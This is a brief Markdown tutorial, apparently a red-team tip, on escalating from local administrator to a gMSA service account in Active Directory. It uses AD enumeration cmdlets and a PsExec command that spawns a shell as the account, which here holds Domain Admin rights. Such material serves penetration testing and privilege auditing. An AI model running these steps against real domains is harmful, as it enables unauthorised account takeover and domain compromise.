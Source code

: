 # Elevate from Local admin to gMSA account
Some of the steps in this tutorial used [ADModule](https://github.com/pwnj0hn/HackingTipsNTricks/blob/main/Active%20Directory%20Recon/ADModule.md)
* Check if any gMSA accounts are present in the domain.
 ```powershell
Get-ADServiceAccount -Filter * -properties dnshostname
```
![](https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_01.png)



* Check if gMSA user have any interesting permissions so it is worth hijacking
 ```powershell
Get-ADPrincipalGroupMembership -Identity "http_svc$"
 ```
* Compromise the server which gMSA is assigned too.
* Download [SysInternals PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
* Open Administrator PowerShell or cmd prompt
* Use PsExec to spawn a cmd or PowerShell prompt as the gMSA account.

```powershell
.\PsExec.exe -i -u velvet\http_svc$ -p foobar cmd.exe
```

In this case the http_svc$ account have Domain Admin rights, which it really should not have but we see service accounts have way to many priviliges all the time. DA is used in this example as a worst case scenario. It might have other cool priviliges too in other scenarios.

 
